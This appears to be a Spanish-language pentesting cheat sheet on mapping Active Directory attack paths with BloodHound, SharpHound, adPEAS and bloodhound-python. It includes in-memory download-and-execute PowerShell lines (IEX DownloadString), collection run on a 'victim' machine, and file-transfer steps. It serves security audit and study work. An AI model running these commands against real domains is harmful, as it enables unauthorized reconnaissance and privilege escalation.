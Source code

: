 # Bloodhound 

Tags: #AD #BloodHound #SharpHound #Kali #Parrot 

**BloodHound** es una herramienta especializada en analizar y mapear relaciones dentro de Active Directory (AD). Su capacidad para identificar rutas de ataque y relaciones complejas la ha convertido en una herramienta esencial tanto para pentesters como para atacantes. A través de la recopilación y visualización de datos, permite descubrir configuraciones inseguras, privilegios excesivos y posibles vectores de escalación de privilegios o movimiento lateral en entornos AD, lo que la hace invaluable en auditorías de seguridad y pruebas de penetración.

* [CustomQueries.json - BloodHound](https://github.com/CompassSecurity/BloodHoundQueries/tree/master/BloodHound_Custom_Queries)

```bash 
❯ bloodhound-setup           # Inicia el neo4j 'http:localhost:7474'   
❯ BloodHound --no-sandbox    # Ejecutar Bloodhound y se abre en la web 'http://localhost:8080/ui/login'

Notas: 
	1. Si es la primera vez que se usa, abrir la web 'localhost:7474', agregar las credenciales 'neo4j:neo4j' y conectarse a la web 'Bloodhound' para agregar las nuevas credenciales 'admin:admin'
	2. El 'CustomQueries.json' se descarga y se copia en la carpeta donde esta instalado 'BloodHound'
```

```bash 
Enumerar lo siguiente en BloodHound en 'Analysis':

	1. Identificación de 'Doman Admins'
	2. Identificación de 'usuarios Kerberoasteables'
	3. Identificación de 'usuarios AS-REP Roastable'
	4. Identificación de vectores de ataque 'Find Shortest Paths to Domain Admins'
	5. Identificación de 'Unsconstrained Delegation'
	6. Identificación de usuarios con permisos sobre GPO 'Find if any domain user has interesting against aGPO'
```

```bash 
Una vez obtenido un usuario:

# Manera 1
	1. Agregar la opción 'Mark User as Owned'
	2. Darle click al usuario y se seleccionará el menú 'Node Info'
	3. Seleccionar la opción 'Reachable High Value Targets' para ver el camino y lo que deberiamos de hacer para ser usuario 'Administrator'
```

## SharpHound 

* [SharpHound](https://github.com/SpecterOps/BloodHound-Legacy/blob/master/Collectors/SharpHound.ps1)
* [SharpHound](https://github.com/puckiestyle/powershell/blob/master/SharpHound.ps1)

```powershell
❯ IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/SharpHound.ps1') 

❯ Invoke-BloodHound -CollectionMethod All     


Notas: 
	1. Si se ha instalado 'BloodHound' con 'apt' se debe de usar 'SharpHound.exe' que se encuentra en la ruta de instalacion del BloodHound para que se puedan cargar los datos 
	2. Recolectar la información en la maquina victima Windows y obtener un archivo '.zip' para agregarlo a 'BloodHound'
```

## ADPeas 

* [ADPeas](https://github.com/61106960/adPEAS)

```powershell 
❯ IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/61106960/adPEAS/main/adPEAS.ps1')

❯ Invoke-adPEAS    # Módulo para hacer la enumeración automatizada

Notas: 
	1. Al usar ADPeas para hacer la recolección ejecuta 'SharpHound' automaticamente
```

## Subir Data por Python a BloodHound

```bash
❯ bloodhound-python -d Domain.local -u User -p Password -ns IP_DC -c all   # Ejecutamos para recopilar la data y asi poder subir el archivo a la plataforma de Bloodhound

Notas: 
	1. Importamos todos los archivos que fueron generados en formato 'Json'
```

## SharpHound con credenciales Validas desde un CMD en Windows 

```bash 
# Autenticarse en un 'CMD' en Windows con credenciales validas
❯ runas /netonly /user:domain1.com\username cmd    # Autenticarse con credenciales validas a nivel de red en una CMD en Windows> Este comando abrirá una nueva CMD con las credenciales 

❯ dir \\IP\DIR           # Enumerar el directorio con el usuario autenticado desde una CMD en Windows 

❯ .\SharpHound.exe -c all -d domain1.com --domaincontroller IP   # Enumeración con SharpHound a un dominio con credenciales validas desde una CMD en Windows.
Nota: La herramienta regresará un archivo '.zip' que se debe cargar en 'BloodHound' para analizar

❯ python3 -m http.server 80     # Crear un recurso compartido a nivel de red para pasar archivos 
```
